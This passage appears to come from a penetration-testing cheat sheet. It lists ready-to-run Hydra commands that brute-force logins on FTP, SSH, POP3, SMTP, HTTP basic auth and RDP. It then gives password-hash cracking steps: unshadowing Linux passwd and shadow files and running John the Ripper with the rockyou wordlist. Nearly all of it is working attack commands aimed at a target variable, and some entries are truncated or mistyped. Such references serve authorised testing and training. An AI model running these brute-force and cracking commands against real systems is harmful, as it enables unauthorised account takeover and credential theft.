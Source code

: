         -   Hydra FTP known user and password list  
            `hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp`

        -   Hydra SSH using list of users and passwords  
            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

        -   Hydra SSH using a known password and a username list  
            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

        -   Hydra SSH Against Known username on port 22
            `hydra $ip -s 22 ssh -l <user> -P big\_wordlist.txt`

        -   Hydra POP3 Brute Force  
            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

        -   Hydra SMTP Brute Force  
            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

        -   Hydra attack http get 401 login with a dictionary  
            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`
            
        -   Hydra attack Windows Remote Desktop with rockyou
            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`
          

-   <span id="_bnmnt83v58wk" class="anchor"><span id="_Toc480741822" class="anchor"></span></span>Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

    -   Online Password Cracking  
        [*https://crackstation.net/*](https://crackstation.net/)

    -   Hashcat running on

    -   Sample Hashes  
        [*http://openwall.info/wiki/john/sample-hashes*](http://openwall.info/wiki/john/sample-hashes)

    -   Identify Hashes  
        hash-identifier

    -   Crask linux hashes you must first unshadow them:  
        unshadow passwd-file.txt shadow-file.txt  
        unshadow passwd-file.txt shadow-file.txt &gt; unshadowed.txt

-   John the Ripper - Password Hash Cracking

    -   john $ip.pwdump

    -   john --wordlist=/usr/share/wordlists/rockyou.txt hashes

    -   john --rules --wordlist=/usr/share/wordlists/rockyou.txt

    -   john --rules --wordlist=/usr/share/wordlists/rockyou.txt
        unshadowed.txt

    -   JTR forced descrypt cracking with wordlist  
        john --format=descrypt --wordlist  
        /usr/share/wordlists/rockyou.txt hash.txt

    -   JTR forced descrypt brute force cracking  
        john --format=descrypt hash --show
